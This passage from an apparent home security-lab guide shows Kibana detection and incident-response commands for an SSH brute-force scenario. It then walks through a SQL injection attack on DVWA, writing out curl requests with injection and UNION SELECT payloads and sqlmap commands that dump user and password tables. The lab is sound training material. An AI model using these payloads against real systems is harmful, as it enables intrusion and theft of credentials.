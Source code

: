 **Kibana Visualization:**
1. Open **Discover**
2. Search: `log_type:auth AND "Failed password" AND src_ip:192.168.1.50`
3. View timeline of attacks
4. Create alert rule: **> 5 failed attempts in 1 minute**

### 🛡️ Incident Response

```bash
# On Ubuntu server - Block attacker
sudo ufw deny from 192.168.1.50

# Check auth logs
sudo grep "192.168.1.50" /var/log/auth.log

# Check if any successful logins
sudo grep "Accepted password.*192.168.1.50" /var/log/auth.log

# Lock compromised account if successful
sudo passwd -l admin
```

---

## Scenario 2: Web Application SQL Injection

### 🎯 Objective
Exploit SQL injection vulnerability in DVWA and detect via web server logs.

### 🔴 Attack Steps (From Kali - 192.168.1.50)

```bash
# Basic SQL injection test
curl "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit#"

# Database enumeration
curl "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT null,table_name FROM information_schema.tables--&Submit=Submit"

# Dump user data
curl "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT user,password FROM users--&Submit=Submit"

# Using SQLMap (automated)
sqlmap -u "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1" \
  --cookie="security=low; PHPSESSID=test" \
  --dbs --batch

# Extract data
sqlmap -u "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1" \
  --cookie="security=low; PHPSESSID=test" \
  -D dvwa -T users --dump
```
